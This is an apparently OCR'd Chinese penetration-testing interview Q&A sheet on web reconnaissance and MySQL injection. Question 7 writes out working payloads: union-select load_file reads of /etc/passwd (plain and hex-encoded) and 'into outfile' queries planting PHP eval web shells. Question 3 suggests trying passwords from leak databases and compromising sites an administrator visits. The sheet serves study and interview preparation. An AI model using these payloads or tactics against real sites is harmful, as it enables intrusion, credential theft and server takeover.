 #### * 1.拿到一个待检测的站，你觉得应该先做什么？  
收集信息：whois、网站源 IP、旁站、C 段网站、服务器系统版本、容器版本、 
程序版本、数据库类型、二级域名、防火墙、维护者信息另说...  

#### * 2.mysql 的网站注入，5.0 以上和 5.0 以下有什么区别？  
5.0 以下没有 information_schema 这个系统表，无法列表名等，只能暴力跑表名；5.0 以下是多用户单操作，5.0 以上是多用户多操做。  

#### * 3.在渗透过程中，收集目标站注册人邮箱对我们有什么价值？  
    (1)丢社工库里看看有没有泄露密码，然后尝试用泄露的密码进行登录后台  
    (2)用邮箱做关键词进行丢进搜索引擎  
    (3)利用搜索到的关联信息找出其他邮箱进而得到常用社交账号  
    (4)社工找出社交账号，里面或许会找出管理员设置密码的习惯   
    (5)利用已有信息生成专用字典  
    (6)  观察管理员常逛哪些非大众性网站，拿下它，你会得到更多好东西  

#### * 4.判断出网站的 CMS 对渗透有什么意义？  
    查找网上已曝光的程序漏洞,如果开源，还能下载相对应的源码进行代码审计。  

#### * 5.一个成熟并且相对安全的 CMS ，渗透时扫目录的意义？  
 (1)敏感文件、二级目录扫描  
 (2)站长的误操作比如：网站备份的压缩文件、说明.txt、二级目录可能存放着其他站点  

#### * 6.常见的网站服务器容器?  
  IIS、Apache、nginx、Tomcat,weblogic、jboss  

#### * 7.mysql 注入点，用工具对目标站直接写入一句话，需要哪些条件？  
    root 权限以及网站的绝对路径  
load_file()读取文件操作  
        前提：  
        知道文件的绝对路径  
        能够使用 union 查询  
        对 web 目录有写的权限  
        union select 1,load_file('/etc/passwd'),3,4,5#  
        0x2f6574632f706173737764  
        union select 1,load_file(0x2f6574632f706173737764),3,4,5#  
        路径没有加单引号的话必须转换十六进制  
        要是想省略单引号的话必须转换十六进制  
into outfile 写入文件操作  
 前提：  
        文件名必须是全路径(绝对路径)  
        用户必须有写文件的权限  
        没有对单引号'过滤  
        select '<?php @eval($_POST["admin"]); ?>' into outfile  'C:\Windows\tmp\8.php'  
        路径里面两个反斜杠\可以换成一个正斜杠/  
         PHP 语句没有单引号的话，必须转换成十六进制  
        要是想省略单引号'的话,必须转换成十六进制  
         <?php eval($_POST["admin"]); ?>  或者   <?php  eval($_GET["admin"]); ?>  
 <?php @eval($_POST["admin"]); ?>  
         <?php phpinfo(); ?>  
         <?php eval($_POST["admin"]); ?>  
            建议一句话 PHP 语句转换成十六进制  
